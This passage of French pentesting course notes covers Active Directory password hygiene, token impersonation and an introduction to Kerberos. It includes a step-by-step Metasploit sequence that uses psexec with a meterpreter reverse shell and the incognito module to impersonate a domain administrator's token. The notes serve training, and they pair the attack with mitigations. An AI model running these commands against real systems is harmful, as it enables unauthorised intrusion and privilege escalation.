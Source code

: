      - Évitez de réutiliser le passwd de l'administrateur local
     - Désactiver les comptes Invité et Administrateur
     - Limiter qui est un administrateur local (moindre privilège)
   - Utilisez des mots de passe forts
     - Plus c'est long, mieux c'est (> 14 caractères)
     - Évitez d'utiliser des mots courants
     - J'aime les longues phrases
   - Gestion des accès privilèges (PAM)
     - Extraire/ouvrir des comptes sensibles en cas de besoin.
     - Faites pivoter automatiquement les mots de passe au moment du départ et de l'enregistrement
     - Limite les attaques par passes car le hachage/passwd est fort et constamment en rotation.

 **Aperçu de l'usurpation d'identité de jeton**
 - Jetons : Clés temporaires qui vous permettent d'accéder à un système/réseau sans avoir à fournir d'informations d'identification à chaque fois que vous accédez à un fichier.  Pensez aux cookies pour les ordinateurs.
 - Les types
   - Délégué : Créé pour se connecter à une machine ou utiliser Remote Desktop
   - Usurpation d'identité : "non interactif" comme la connexion d'un lecteur réseau ou d'un script de connexion à un domaine

 **Usurpation d'identité de jeton avec Incognito**
   - `msfconsole`
   - `use exploit/windows/smb/psexec`
   - `set RHOSTS, SMBDomain, SMBPass and SMB User`
   - `show targets` : Choisissez Native Upload
   - `set target 2`
   - `set payload windows/x64/meterpreter/reverse_tcp`
   - `set lhost eth0`
   - `run`
 - Une session Meterpreter sera créée.  Nous pouvons charger incognito à partir du shell Meterpreter.
   - `load incognito`
   - `help` - Il affichera la commande incognito
   - `list_tokens -u` : Liste les jetons, nous pouvons usurper l'identité des utilisateurs répertoriés.
   - `impersonate_token marvel\\administrator`
   - `shell`
   - `whoami`

 **Stratégies d'atténuation**
 - Limiter les autorisations de création de jetons d'utilisateur/groupe
 - Hiérarchisation des comptes : l'administrateur de domaine doit se connecter aux machines auxquelles il doit accéder et qui ne doivent être que des contrôleurs de domaine.  Si, pour certaines raisons, cet administrateur de domaine se connecte à un ordinateur utilisateur ou à un serveur et que cet ordinateur ou serveur utilisateur est compromis.  Nous pouvons usurper l'identité de ce jeton si nous parvenons à compromettre le contrôleur de domaine.
 - Restriction de l'administrateur local : si les utilisateurs ne sont pas des administrateurs locaux sur leur ordinateur, nous ne pouvons pas obtenir de shell sur cet ordinateur avec leur compte qui nous empêche d'accéder à l'ordinateur et d'utiliser ce type d'attaque.


 **Présentation de Kerberos**
 - Kerberos est un protocole d'authentification réseau utilisé dans Windows Active Directory.
 - Dans ce processus, les clients se connectent et interagissent avec le service d'authentification réseau, le client obtient des tickets du centre de distribution de clés (KDC). Après avoir obtenu le ticket du KDC, un client peut utiliser le ticket afin de communiquer avec les serveurs d'applications. .
 - Kerberos s'exécute sur le port 88 (UDP) par défaut.
 - Quelques termes à clarifier :
   - Client : Un utilisateur normal qui souhaite accéder à un service.
   - Centre de distribution de clés (KDC) : Le composant le plus important qui joue le rôle principal dans le processus d'authentification.
   - Serveur d'applications : Tout service d'application tel que SQL
   - TGT (Ticket Granting Ticket) : Ticket nécessaire à la demande de TGS auprès du KDC, il s'obtient auprès du KDC uniquement.